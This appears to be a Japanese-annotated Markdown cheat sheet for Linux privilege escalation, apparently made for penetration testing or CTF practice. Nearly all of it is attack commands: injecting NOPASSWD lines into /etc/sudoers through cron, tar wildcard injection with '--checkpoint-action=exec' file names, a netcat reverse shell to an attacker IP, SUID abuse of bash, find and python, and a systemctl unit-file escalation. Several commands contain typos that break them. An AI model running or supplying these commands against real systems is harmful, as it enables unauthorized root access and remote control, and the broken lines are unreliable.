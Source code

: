 # WildCard Injection

* Cron
  * sudoers

    ``` shell
        echo 'echo "vuln ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > <cronに使用されているファイル>
    ```

  * wiledcard injecion
  
    ``` shell
        #tar .... /*を利用
        #tarの圧縮ディレクトリで実行
        echo '#!/bin/bash\ncmod +s /bin/bash' > shell.sh
        #または
        echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > shell.sh
        #もしくはこれでもいい。
        echo 'echo "kali ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > shell.sh
        # exec=のあとに任意のコマンドを実行できる
        echo "" > "--checkpoint-action=exec= sh shell.sh"
        echo "" > --checkpoint=1
        # 攻撃側の端末で実行するとrootが取れる
        /bin/bash -p
    ```

    ``` shell
        #wildcard injection でのrevearse shell
        echo "#!/bin/bash" > shell.sh
        echo "nc <kaliのip> <port> -e /bin/bash" >> shell.sh
        touch -- '--checkpoint=1'
        touch -- '--cheackpoint-action=exec=sh shell.sh'
    ```

* findで権限昇格

    ``` shell
        find / -type f -perm -u=s 2/dev/null
        #または
        find . -exec /bin/bash -p \; -quit
    ```

* pythonで権限昇格

    ``` shell
        python -c 'import os;os.system("/bin/sh -p")'
    ```

* SUID

    ``` shell
        #install -mでモード指定
        sudo install -m =xs $(which systemctl) .
        #serviceの作成
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        #リンクの生成
        ./systemctl link $TF
        #サービスの有効化
        ./systemctl enable --now $TF
    ```
